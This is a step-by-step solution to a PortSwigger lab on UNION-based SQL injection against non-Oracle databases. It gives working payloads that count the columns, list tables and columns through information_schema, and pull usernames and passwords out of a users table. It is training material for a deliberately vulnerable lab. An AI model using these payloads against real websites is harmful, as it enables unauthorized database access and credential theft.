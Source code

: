 # Lab: SQL injection attack, listing the database contents on non-Oracle databases

**Lab Link:** [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle]

## Explanation

This lab contains a SQL injection vulnerability in the product category filter. The objective is to use SQL injection to **enumerate the database contents**, including the **users table and their credentials**.

The target uses a **non-Oracle database** (e.g., MySQL, Microsoft SQL Server, or PostgreSQL). These support the `information_schema` database for metadata queries.

---

## Step-by-step Solution

### 🔹 Step 1: Intercept the request

Click on any product category and intercept the request using Burp Suite. Then send it to **Repeater**.

Example:
```http
GET /filter?category=Gifts HTTP/1.1
🔹 Step 2: Determine number of columns
Send this payload:

sql
Sao chép mã
'+UNION+SELECT+NULL,NULL-- 
If successful → 2 columns.

Otherwise, test other numbers (e.g., 3 columns).

🔹 Step 3: Identify column that reflects on page
Try:

sql
Sao chép mã
'+UNION+SELECT+'abc','def'-- 
If "abc" or "def" shows on the page, that column is suitable for displaying data.

🔹 Step 4: List all tables in the database
Use this query:
'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
Look for a table named users or similar.

🔹 Step 5: List column names in the users table
Use this payload:


'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users'--
You may need to lowercase or uppercase 'users' depending on DBMS.

🔹 Step 6: Retrieve usernames and passwords
Use the actual column names found:


'+UNION+SELECT+username,password+FROM+users--
If only one column displays, you can combine values:

'+UNION+SELECT+CONCAT(username,':',password),NULL+FROM+users--  -- (for MySQL)